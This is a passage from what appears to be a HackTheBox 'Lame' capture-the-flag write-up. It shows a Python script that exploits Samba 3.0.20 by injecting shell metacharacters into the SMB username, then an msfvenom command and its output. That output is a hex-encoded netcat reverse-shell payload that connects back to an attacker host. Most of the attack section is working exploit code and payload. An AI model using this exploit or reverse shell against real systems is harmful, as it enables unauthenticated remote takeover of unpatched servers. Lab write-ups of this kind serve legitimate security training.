 ```ruby

		handler
	end

end
```

But that is a Metasploit module and we want to do it without it... if we read the exploit it says that its exploiting a vulnerability by __specifying a username containing shell meta characters__, executing commands... and __no authentication is needed__ to exploit this vulnerability, with this information we can make our python script to exploit this `samba` version.

## Exploitation
> Creating the script

This is the skeleton of the `python` script we will use to exploit this `Samba` version: 
```python
#!/usr/bin/python3
#Samba 3.0.20-Debian
from smb import *
from smb.SMBConnection import *

#msfvenom -p cmd/unix/reverse_netcat LHOST=<Attacker-IP> LPORT=<Attacker-Port> -f python
payload =("");

userID = "/=` nohup " + payload + "`"
password = 'evil'
ip = '10.10.10.3'

conn = SMBConnection(userID, password,"some","thing", use_ntlm_v2=False)
conn.connect(ip, 445)
```

> Creating the Payload
For the payload we will use msfvenom to create a reverse shell that we will capture with netcat:
```
msfvenom -p cmd/unix/reverse_netcat LHOST=<Attacker-IP> LPORT=<Attacker-Port> -f python
```
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Lame]
└─$ msfvenom -p cmd/unix/reverse_netcat LHOST=<My IP> LPORT=4444 -f python
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 100 bytes
Final size of python file: 499 bytes
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x6b"
buf += b"\x6d\x71\x74\x67\x68\x68\x3b\x20\x6e\x63\x20\x31\x30"
buf += b"\x2e\x31\x30\x2e\x31\x34\x2e\x32\x20\x34\x34\x34\x34"
buf += b"\x20\x30\x3c\x2f\x74\x6d\x70\x2f\x6b\x6d\x71\x74\x67"
buf += b"\x68\x68\x20\x7c\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20"
buf += b"\x3e\x2f\x74\x6d\x70\x2f\x6b\x6d\x71\x74\x67\x68\x68"
buf += b"\x20\x32\x3e\x26\x31\x3b\x20\x72\x6d\x20\x2f\x74\x6d"
buf += b"\x70\x2f\x6b\x6d\x71\x74\x67\x68\x69"
```

---